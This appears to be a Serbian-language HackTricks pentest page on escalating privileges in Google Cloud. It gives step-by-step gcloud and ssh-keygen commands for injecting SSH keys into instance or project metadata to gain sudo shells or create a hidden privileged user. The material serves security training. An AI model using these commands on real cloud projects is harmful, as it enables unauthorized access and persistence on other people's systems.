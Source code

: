 # GCP - Dodavanje prilagođenih SSH metapodataka

## GCP - Dodavanje prilagođenih SSH metapodataka

{{#include ../../../../banners/hacktricks-training.md}}

### Modifikacija metapodataka <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modifikacija metapodataka na instanci može dovesti do **značajnih bezbednosnih rizika ako napadač dobije potrebne dozvole**.

#### **Uključivanje SSH ključeva u prilagođene metapodatke**

Na GCP-u, **Linux sistemi** često izvršavaju skripte iz [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Kritična komponenta ovoga je [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), koji je dizajniran da **redovno proverava** krajnju tačku metapodataka instance za **ažuriranja autorizovanih SSH javnih ključeva**.

Stoga, ako napadač može da modifikuje prilagođene metapodatke, mogao bi da natera daemon da pronađe novi javni ključ, koji će biti obrađen i **integrisan u lokalni sistem**. Ključ će biti dodat u `~/.ssh/authorized_keys` datoteku **postojećeg korisnika ili potencijalno kreirati novog korisnika sa `sudo` privilegijama**, u zavisnosti od formata ključa. I napadač će moći da kompromituje host.

#### **Dodavanje SSH ključa postojećem privilegovanom korisniku**

1. **Istražite postojeće SSH ključeve na instanci:**

- Izvršite komandu da opišete instancu i njene metapodatke kako biste locirali postojeće SSH ključeve. Relevantni deo u izlazu biće pod `metadata`, posebno ključ `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Obratite pažnju na format SSH ključeva: korisničko ime prethodi ključevi, odvojeni dvotačkom.

2. **Pripremite tekstualnu datoteku za SSH ključ metapodatke:**
- Sačuvajte detalje korisničkih imena i njihovih odgovarajućih SSH ključeva u tekstualnu datoteku pod imenom `meta.txt`. Ovo je neophodno za očuvanje postojećih ključeva dok dodajete nove.
3. **Generišite novi SSH ključ za ciljanog korisnika (`alice` u ovom primeru):**

- Koristite komandu `ssh-keygen` da generišete novi SSH ključ, osiguravajući da polje komentara (`-C`) odgovara ciljanom korisničkom imenu.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Dodajte novi javni ključ u `meta.txt`, imitujući format koji se nalazi u metapodacima instance.

4. **Ažurirajte metapodatke SSH ključeva instance:**

- Primijenite ažurirane metapodatke SSH ključeva na instancu koristeći komandu `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Pristupite instanci koristeći novi SSH ključ:**

- Povežite se na instancu putem SSH koristeći novi ključ, pristupajući shell-u u kontekstu ciljanog korisnika (`alice` u ovom primeru).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Kreirajte novog privilegovanog korisnika i dodajte SSH ključ**

Ako nijedan zanimljiv korisnik nije pronađen, moguće je kreirati novog koji će dobiti `sudo` privilegije:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH ključevi na nivou projekta <a href="#sshing-around" id="sshing-around"></a>

Moguće je proširiti domet SSH pristupa na više Virtuelnih Mašina (VM) u cloud okruženju primenom **SSH ključeva na nivou projekta**. Ovaj pristup omogućava SSH pristup bilo kojoj instanci unutar projekta koja nije eksplicitno blokirala SSH ključeve na nivou projekta. Evo sažetog vodiča:

1. **Primena SSH ključeva na nivou projekta:**

- Koristite komandu `gcloud compute project-info add-metadata` da dodate SSH ključeve iz `meta.txt` u metapodatke projekta. Ova akcija osigurava da SSH ključevi budu prepoznati na svim VM-ovima u projektu, osim ako VM nema omogućenu opciju "Blokiraj SSH ključeve na nivou projekta".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH u instance koristeći ključeve na nivou projekta:**
- Sa SSH ključevima na nivou projekta, možete SSH u bilo koju instancu unutar projekta. Instance koje ne blokiraju ključeve na nivou projekta će prihvatiti SSH ključ, omogućavajući pristup.
- Direktna metoda za SSH u instancu je korišćenje komande `gcloud compute ssh [INSTANCE]`. Ova komanda koristi vaše trenutno korisničko ime i SSH ključeve postavljene na nivou projekta da pokuša pristup.

## Reference

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
